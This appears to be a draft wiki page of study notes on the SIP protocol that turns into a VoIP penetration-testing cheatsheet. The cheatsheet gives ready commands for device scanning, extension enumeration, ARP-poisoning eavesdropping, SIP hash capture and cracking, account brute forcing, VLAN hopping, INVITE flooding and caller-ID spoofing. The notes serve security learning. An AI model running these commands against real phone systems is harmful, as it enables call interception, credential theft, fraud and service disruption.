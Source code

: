 # SIP

# This a draft page while wrap my noggin around both SIP And VOIP and create seperate pages


[OlivierLaflamme/Cheatsheet-God - Cheatsheet_VOIP.txt](https://github.com/OlivierLaflamme/Cheatsheet-God/blob/master/Cheatsheet_VOIP.txt) is the initial starting point for this page, but `SIP != VOIP`, wiki explains, but read and ...

https://www.sip.us/blog/latest-news/sip-vs-voip-whats-difference/
https://en.wikipedia.org/wiki/Voice_over_IP
https://en.wikipedia.org/wiki/Session_Initiation_Protocol

VOIP is one of many [[Network-Technologies]] a business may use...

https://www.reddit.com/r/VOIP/comments/1601di6/newbie_help_voip_vs_sip/ `[Skonamonkey](https://www.reddit.com/user/Skonamonkey/)`
VOIP - Is a technology. (Voice Over Internet Protocol)
SIP - Is a protocol (Session Initialisation Protocol)
Not all VOIP is SIP, But All SIP is VOIP

#### update references


SIP usually uses ports 5060 TCP or UDP for unencrypted signalling or 5061 for encrypted transportation using TLS.

SIP is an ASCII based protocol which has some similar elements like in the HTTP protocol by using a Request/Response model. Much like an HTTP request from a browser a SIP client request is made using a SIP URI a user agent and a method/request. SIP uses e-mail like addresses format: `user/phone@domain/ip` A typical SIP URI looks like:
```bash
sip:205@192.168.1.100
sip:username@pbx.com 
sip:205@192.168.1.100:5060
```

#### SIP Requests / Methods

Request | Description
--- | -
INVITE | Used to invite and account to participate in a call session.
ACK | 	Acknowledge an INVITE request.
CANCEL | Cancel a pending request.
REGISTER |	Register user with a SIP server.
OPTIONS | Lists information about the capabilities of a caller.
BYE | 	Terminates a session between two users in a call.
REFER | Indicates that the recipient(identified by the Request URI) should contact a third party using the contact information provided in the request.
SUBSCRIBE | The SUBSCRIBE method is used to request current state and state updates from a remote node.
NOTIFY | The NOTIFY method is used to notify a SIP node that an event which has been requested by an earlier SUBSCRIBE method has occurred.




An Example SIP “INVITE” Request:
```c
INVITE sip:201@192.168.1.104 SIP/2.0
Via: SIP/2.0/UDP 192.168.1.102;rport;branch=z9hG4bKvbxaoqar
Max-Forwards: 70 

To: 
From: "NightRanger" ;tag=eihgg
Call-ID: hfxsabthoymshub@backtrack
CSeq: 649 INVITE
Contact: 
Content-Type: application/sdp 

Allow: INVITE,ACK,BYE,CANCEL,OPTIONS,PRACK,REFER,NOTIFY,SUBSCRIBE,INFO,MESSAGE
Supported: replaces,norefersub,100rel
User-Agent: Twinkle/1.2 

Content-Length: 310
```

#### SIP Responses

Response |	Description
--- | -
1xx | Informational responses, Request received and being
2xx | Successful responses The action was successfully received, understood, and accepted.
3xx | Redirection responses
4xx | Request failure responses The request contains bad syntax or cannot be fulfilled at the server.
5xx | Server failure responses The server failed to fulfill an apparently valid request.
6xx | Global failure responses The request cannot be fulfilled at any server.

SIP Call Between 2 Phones Example: 

1. The calling phone sends an invite.
1. The called phone sends back a response of 100 (Trying).
1. The called phone then starts to ring and sends a response of 180 (Ringing).
1. When the caller picks up the phone the called phone sends a response of 200 (OK).
1. The calling phone sends an ACK response.
1. Conversation begins via RTP.
1. When the caller hangs up the phone a BYE request is sent.
1. The calling phone responds with 200 (OK).

#### Information Gathering

SMAP - Simple scanner for SIP enabled devices.
```bash
./smap 192.168.1.104
./smap 192.168.1.130/24
./smap -O 192.168.1.104
./smap -l 192.168.1.104
./smap -d 192.168.1.104
```
SIPSAK - Testing SIP enabled applications and devices using the OPTION request method only.
```bash
sipsak -vv -s sip:192.168.1.221
```
SIPScan - Simple scanner for sip enabled hosts.
```bash
./sip-scan -i eth0 192.168.1.1-254
```
SVMAP (SIPVicious)

```bash
./svmap.py 192.168.1.1-254
./svmap.py 192.168.1.1-254 --fp
```

#### Extensions Enumeration

`svwar` - Enumerate extensions by using a range of extensions or using a dictionary file.
```bash
./svwar.py -e100-400 192.168.1.104
./svwar.py -e100-400 192.168.1.104 -m INVITE -v
```

`enumiax` - Enumerate Asterisk Exchange protocol usernames.
```bash
./enumiax -v -m3 -M3 192.168.1.104
./enumiax -d dict -v 192.168.1.104
```

#### Monitoring Traffic and Eavesdropping Phone calls
Capturing SIP authentication (we will later discuss this topic in the attacking authentication section). Eavesdropping users phone calls.

Arp Poisoning using Arpspoof
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof –t victim gateway
arpspoof –t gateway victim
``````
Capturing traffic and Eavesdropping using [[Wireshark]]
- Capture Filter: 
	- not broadcast and not multicast and host `<IP ADDRESS>`
- [[Wireshark]]: 
	- Decode captured VoIP calls data into playable audio format. This feature is under the Statistics -> VoIP Calls menu.


#### Capturing SIP Authentication using SIPDump

SIPDump is a part of the SIPCrack tools suite, it allows performing a live capture of SIP authentication digest response or it can dump a previously captured sessions from a PCAP file.
```bash
./sipdump -i eth0
./sipdump -i eth0 auth.txt
./sipdump -p /root/registration.pcap auth.txt
```

Cracking SIP Digest response hashes
```bash
./sipcrack -w sipass.txt auth.txt
```

Brute forcing SIP Accounts
```bash
./svcrack.py -u200 -d wordlist.txt 192.168.1.104
./svcrack.py -u200 -r100000-999999 192.168.1.104
```

#### VLAN Hopping
```bash
modprobe 8021q
```
VoIP Hopper -> [[VOIP]]
```bash
./voiphopper -i eth0 -c 0
./voiphopper -i eth0 -v 20
```

#### Denial Of Service

`inviteflood` - This tool can be used to flood a target with INVITE requests it can be used to target sip gateways/proxies and sip phones.
```bash
./inviteflood eth0 <target_extension> <target_domain> <target_ip number_of_packets>
```

#### Attacking VoIP Using Metasploit 

Mirrored in [[VOIP]]

Scanning SIP Enabled Devices
```ruby
use auxiliary/scanner/sip/options
```
Enumerating SIP extensions / Usernames
```ruby
use scanner/sip/enumerator
set RHOSTS 192.168.1.104
set MINEXT 100
set MAXEXT 500
set PADLEN 3
```

Spoofing Caller ID auxiliary
```ruby
use voip/sip_invite_spoof
```

## References

[OlivierLaflamme/Cheatsheet-God - Cheatsheet_VOIP.txt](https://github.com/OlivierLaflamme/Cheatsheet-God/blob/master/Cheatsheet_VOIP.txt)